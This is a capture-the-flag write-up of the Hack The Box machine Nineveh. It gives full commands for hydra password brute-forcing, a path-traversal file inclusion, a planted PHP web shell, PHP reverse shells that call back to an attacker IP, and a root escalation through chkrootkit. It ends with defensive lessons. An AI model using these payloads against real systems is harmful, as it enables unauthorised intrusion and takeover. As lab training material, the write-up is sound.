









# Nineveh Writeup w/o Metasploit



## Reconnaissance

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

```text
nmap -sC -sV -O -oA initial 10.10.10.43
```

* **-sC**: run default nmap scripts
* **-sV**: detect service version
* **-O**: detect OS
* **-oA**: output all formats and store in file _initial_

We get back the following result showing that 2 ports are open:

* Port 80: running Apache httpd 2.4.18 over HTTP
* Port 443: running Apache httpd 2.4.18 over HTTPS

```text
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-28 08:48 EST
Nmap scan report for 10.10.10.43
Host is up (0.042s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.36 seconds
```

Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

```text
nmap -sC -sV -p- -oA full 10.10.10.43
```

No other ports are open.

Similarly, we run an nmap scan with the **-sU** flag enabled to run a UDP scan.

```text
nmap -sU -p- -oA udp 10.10.10.43
```

We get back the following result showing no ports are open.

```text
Srting Nmap 7.80 ( https://nmap.org ) at 2019-12-28 08:52 EST
Nmap scan report for 10.10.10.43
Host is up (0.035s latency).                                                                                                                   
All 65535 scanned ports on 10.10.10.43 are open|filtered                                                                                       
                                                                                                                                               
Nmap done: 1 IP address (1 host up) scanned in 2335.03 seconds
```

Before we move on to enumeration, let’s make a few mental notes about the nmap scan results.

* We only have two points of entry: port 80 & port 443.
* The nmap scan leaks the domain name of the machine: nineveh.htb.
* The SSL certificate on port 443 is expired, so we’ll have to disable TLS checking when running our tools.

## Enumeration <a id="63f4"></a>

First, add the domain name to the /etc/hosts file.

```text
10.10.10.43 nineveh.htb
```

We’ll start by enumerating port 80.

**Port 80**

Visit the page in the browser.



View the page source to see if it gives you any other information.


There’s nothing there, so we’ll run gobuster on the application.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u nineveh.htb
```

* **dir:** uses directory/file brute forcing mode.
* **-w:** path to the wordlist.
* **-u:** the target URL or Domain.

We get back the following result.

```text
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://nineveh.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/28 09:05:44 Starting gobuster
===============================================================
/department (Status: 301)
/server-status (Status: 403)
===============================================================
2019/12/28 09:20:06 Finished
===============================================================
```

Visit the /department directory.


We get a login form. View the page source to to see if it gives you any other information.


We find a comment that might be useful later. We have two possible usernames _admin_ and _amrois_. Let’s try the usernames on the login form.

If we try to login with the user _admin_ and a random password we get the error “Invalid Password!”, whereas if we try to login with the user _amrois_ and a random password we get the error “invalid username”. This verbose message that is outputted by the application allows us to enumerate usernames. So far, we know that _admin_ is a valid user.

This looks like a custom application, so I tried common credentials admin/admin, admin/amrois, admin/password but none of them worked. Next, let’s run hydra on the login form.

First, intercept the request with Burp.


Then run hydra.

```text
hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=^USER^&password=^PASS^&Login=Login:Invalid Password!"
```

* **-l:** specifies the username to be admin.
* **-P:** specifies the file that contains the passwords.
* **http-post-form:** specifies an HTTP POST request.
* **“….”:** the content in the double quotes specifies the username/password parameters to be tested and the failed login message.

We get back the following result.

```text
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-12-28 12:14:17
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://nineveh.htb:80/department/login.php:username=^USER^&password=^PASS^&Login=Login:Invalid Password!
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] 2421.00 tries/min, 2421 tries in 00:01h, 14341978 to do in 98:44h, 16 active
[VERBOSE] Page redirected to http://nineveh.htb/department/manage.php
[80][http-post-form] host: nineveh.htb   login: admin   password: 1q2w3e4r5t
[STATUS] attack finished for nineveh.htb (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-12-28 12:16:12
```

It found the valid password! Log into the application using the credentials we found.


Visit the _Notes_ tab. We get the following text.


None of it makes much sense at this point. They do mention a secret folder. Maybe we’ll find that while enumerating port 443. One thing to notice is the URL that generates the page looks like a file path.


When you see a file path, the first thing you should try is an LFI. I tried and it didn’t exactly work. When I try the following string

```text
../../../../../../../etc/passwd
```

I get a “No Note is selected” message. However, when I try the following string

```text
files/ninevehNotes/../../../../etc/passwd
```

I get a warning message.


If I remove “ninevehNotes” from the URL

```text
files/../../../../etc/passwd
```

I’m back to the “No Note is selected” message. This leads me to believe that it is vulnerable to LFI, however, there is a check on the backend that is grepping for the string “ninevehNotes” since my query doesn’t work without it.

According to the error, we’re in the /www/html/department/ directory, so we need to go three directories above. Let’s try with this string.

```text
http://nineveh.htb/department/manage.php?notes=/ninevehNotes/../../../etc/passwd
```

It worked!



When it comes to LFIs, you usually need to chain it to another vulnerability in order to get remote code execution. Therefore, I’m going to start enumerating the next port to see if I can find another vulnerability that I can chain this one to.

**Port 443**

Visit the page in the browser.


View the page source to see if it gives you any extra information. We don’t get anything useful. Next, view the SSL certificate.



We find an email address that might be useful later. Next, run gobuster on the application.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://nineveh.htb -k
```

* **dir:** uses directory/file brute forcing mode.
* **-w:** path to the wordlist.
* **-u:** the target URL or Domain.
* **-k:** skip SSL certificate verification.

We get back the following result.

```text
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://nineveh.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/28 09:20:47 Starting gobuster
===============================================================
/db (Status: 301)
/server-status (Status: 403)
/secure_notes (Status: 301)
===============================================================
2019/12/28 09:34:46 Finished
===============================================================
```

The **/secure\_notes** directory gives us the following image.



This might be what the comment “check your secret folder” was referring to. Save the image, it might have a secret stored in it. We’ll look into that later.

The **/db** directory leads us to the following page.



I tried the default password “admin” for phpLiteAdmin v1.9 but that did not work. Let’s try brute-forcing the password. First, intercept the request in Burp.



Then run hydra on the login form.

```text
hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt nineveh.htb https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true&Login=Login:Incorrect password."
```

* **-l:** specifies the username to be admin.
* **-P:** specifies the file that contains the passwords.
* **http-post-form:** we’re sending a POST request.
* **“….”:** the content in the double quotes specifies the username/password parameters to be tested and the failed login message.

We get back the following result.

```text
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-12-28 11:12:56
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-forms://nineveh.htb:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true&Login=Login:Incorrect password.
[443][http-post-form] host: nineveh.htb   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-12-28 11:13:53
```

We got a valid password! Use password123 to log into the application. Since this is an off the shelf application, let’s use searchsploit to find out if it is associated with any vulnerabilities.

```text
searchsploit phpLiteAdmin 1.9
```

We get back the following result.


Let’s view the content of the Remote PHP Code Injection exploit. According to the comments made in the[ exploit](https://www.exploit-db.com/exploits/24044), an attacker can create a sqlite database with a php extension and insert php code as text fields. When done, the attacker can execute it simply by accessing the database file using the browser.

This is exactly the vulnerability I was hoping to find! This vulnerability allows me to drop a malicious file on the server and the LFI vulnerability we found earlier allows me to call and execute my malicious file.

## Gaining an Initial Foothold <a id="0917"></a>

In the **Create New Database** section, create a new database called random.php. Then click on random.php in the **Change Database** section. There, create a new table called _random_ with _1_ field. In the **Field** parameter add the following code and change the **Type** to _TEXT_.

```text
<?php echo system($_REQUEST ["cmd"]); ?>
```


Click **Create**. As mentioned in the below image, the file is created in the directory /var/tmp.


Now, let’s go back to the LFI vulnerability and execute our php code.

```text
http://nineveh.htb/department/manage.php?notes=/ninevehNotes/../../../../var/tmp/random.php&cmd=ls
```

We get back the following page.


We have code execution! Let’s intercept the request in Burp and add a reverse shell to the cmd parameter.

First, visit pentestmonkey and get the code for a php reverse shell.

```text
php -r '$sock=fsockopen("10.10.14.12",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Then add the code to the cmd parameter in Burp and URL encode it \(Ctrl+U\).



Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Send the request. We have a shell!


Let’s upgrade it to a partially interactive bash shell.

```text
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

‌To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

‌Once that is done, run the command “fg” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```text
export TERM=xterm
```

Before I look at the user.txt flag, let’s view the content of manage.php.



As we suspected, it’s doing a check on the string “ninevehNotes” when running a file.

Now let’s view the permission of the user.txt file.

```text
www-data@nineveh:/var/www/html/department$ ls -la /home/amrois/         
total 32
drwxr-xr-x 4 amrois amrois 4096 Jul  3  2017 .
drwxr-xr-x 3 root   root   4096 Jul  2  2017 ..
-rw------- 1 amrois amrois    0 Jul  2  2017 .bash_history
-rw-r--r-- 1 amrois amrois  220 Jul  2  2017 .bash_logout
-rw-r--r-- 1 amrois amrois 3765 Jul  2  2017 .bashrc
drwx------ 2 amrois amrois 4096 Jul  3  2017 .cache
-rw-r--r-- 1 amrois amrois  655 Jul  2  2017 .profile
drwxr-xr-x 2 amrois amrois 4096 Jul  2  2017 .ssh
-rw------- 1 amrois amrois   33 Jul  2  2017 user.txt
```

We’re running as www-data, so we don’t have rights to read the file. We need to escalate our user privileges.

## Privilege Escalation <a id="31c3"></a>

Let’s transfer the LinEnum script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine, change to the /tmp directory where we have write privileges and download the LinEnum script.

```text
cd /tmp
wget http://10.10.14.12:5555/LinEnum.sh
```

Give it execute privileges.

```text
chmod +x LinEnum.sh
```

Run the script.

```text
./LinEnum.sh
```

Only one thing stands out in the output.


In our nmap scan, port 22 was not reported to be open, however, the LinEnum script reports it as listening on localhost. I’m not sure what to do with this piece of information but I’ll keep it at the back of my mind in case I don’t find any other way to escalate privileges.

Next, let’s try pspy. If you don’t have the script, you can download it from the following github repository.

```text
https://github.com/DominicBreuker/pspy
```

Upload it and run it on the attack machine in the same way we did for LinEnum.

After a minute we see an interesting process pop up.


Every minute or so the chkrootkit is being run. I’ve never seen that on a machine before so I googled it and found out that it is a program intended to help system administrators check their system for known rootkits. Next, I googled “chkrootkit privilege escalation” and landed on this [exploit](https://www.exploit-db.com/exploits/33899).

There is a privilege escalation vulnerability with old versions of this software that will run any executable file named /tmp/update as root. Therefore, all we have to do is create an “update” file that contains a reverse shell and wait for the scheduled task to give us a shell with root privileges.

To do that, navigate to the /tmp directory and create the file update. In the update file add the following code.

```text
#!/bin/bashphp -r '$sock=fsockopen("10.10.14.12",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Set up a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Wait a minute until the scheduled task runs.


We get a privileged shell! Now we can view the user.txt flag and the root.txt flag.


## Extra Content <a id="7b47"></a>

After watching [ippsec’s video](https://www.youtube.com/watch?v=K9DKULxSBK4) on how to solve the machine, I found another way to solve it.

Remember the nineveh.png image we found in the /secure\_notes directory? It turns out that it has a user’s private and public SSH keys.

To extract the keys, first use binwalk to search the image for any embedded files and executable code.

```text
binwalk nineveh.png
```

We get back the following result showing that the image does contain compressed files.


Next, extract the files.

```text
binwalk -Me nineveh.png
```

* **-e:** Automatically extract known file types.
* **-M:** Recursively scan extracted files.

Enter the directory that was extracted and output the results.

```text
cd _nineveh.png.extracted/secret/
```

We get back two files: nineveh.priv and nineveh.pub. When I find private keys the first thing I try is SSH-ing into the user’s account using the private key. However, if you remember, nmap did not report an open port that was running SSH. This brings us to the second thing we found during our privilege escalation phase that we didn’t look into.

When we ran LinEnum, it reported that port 22 was listening on localhost although nmap didn’t report the port as open. It turns out that there is a technique known as [port knocking](https://en.wikipedia.org/wiki/Port_knocking) used to externally open ports on a firewall by generating a connection attempt on a set of pre-specified closed ports. Once a correct sequence of connection attempts is received, the firewall rules are dynamically modified to allow the host which sent the connection attempts to connect over specific port\(s\).

In short, if you know the exact sequence of ports to connect to, you can open up port 22. To find the sequence you have to enumerate files on the server. This could be done using the LFI vulnerability we found.

First file we need is knockd.

```text
cat /etc/init.d/knockd
```

There, you’ll find a link to the configuration file /etc/knockd.conf. If you cat the file you’ll find the sequence of ports we have to hit.

```text
root@nineveh:/etc/init.d# cat /etc/knockd.conf 
[options]
 logfile = /var/log/knockd.log
 interface = ens33[openSSH]
 sequence = 571, 290, 911 
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn
```

What the file says is that you can open the SSH port by sending a TCP packet to the ports 571, 290 and 911 in sequence.

Let’s try that out.

```text
for x in 571 290 911; do nmap -Pn --max-retries 0 -p $x 10.10.10.43 && sleep 1; done
```

We use _-Pn_ to skip host discovery and _-max-retries 0_ to prevent any probe retransmissions. When you run the command, you get the following output.

```text
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-28 21:53 EST
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up.PORT    STATE    SERVICE
571/tcp filtered umeterNmap done: 1 IP address (1 host up) scanned in 1.16 seconds
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-28 21:53 EST
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up.PORT    STATE    SERVICE
290/tcp filtered unknownNmap done: 1 IP address (1 host up) scanned in 1.16 seconds
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-28 21:53 EST
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up.PORT    STATE    SERVICE
911/tcp filtered xact-backupNmap done: 1 IP address (1 host up) scanned in 1.12 seconds
```

Then, run a general nmap scan to check if port 22 opened up.

```text
root@kali:~/Desktop/htb/nineveh# nmap 10.10.10.43
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-28 21:53 EST
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up (0.033s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

It worked! Now you could SSH into amrois’s account using the private key we found.

```text
ssh -i nineveh.priv amrois@10.10.10.43
```


We’re in! This was a pretty neat solution, it’s the first I’m introduced to the concept of port knocking.

## Lessons Learned <a id="c9fc"></a>

To gain an initial foothold on the box we exploited five vulnerabilities.

1. Verbose message on the login form. The error message allowed us to enumerate a valid username. Therefore, whenever possible, always configure the application to use less ****verbose error messages. A better error message would be “The username or password is incorrect”.
2. Weak login credentials. We brute forced two login forms using hydra. The user should have used a sufficiently long password that is difficult to crack.
3. PHP code injection in the phpLiteAdmin page that allowed us to store a malicious file on the server. This could have been avoided if the user had patched the system and installed the most recent version of phpLiteAdmin.
4. Local File Inclusion \(LFI\) vulnerability that allowed us to call and execute the malicious file we stored on the server. Moreover, we were able to enumerate the port knocking sequence and open up the SSH port using this vulnerability. This could have been easily avoided if the developer validated user input.
5. Information disclosure vulnerability. This one is a no brainer. Do not make your private key publicly available for anyone to read, even if it is hidden in plain site.

To escalate privileges we exploited one vulnerability.

1. A scheduled task that ran a vulnerable version of the chkrootkit software. The software contained a vulnerability that allowed us to escalate to root privileges. Again, This could have been avoided if the user had patched the system and installed the most recent version of the software.

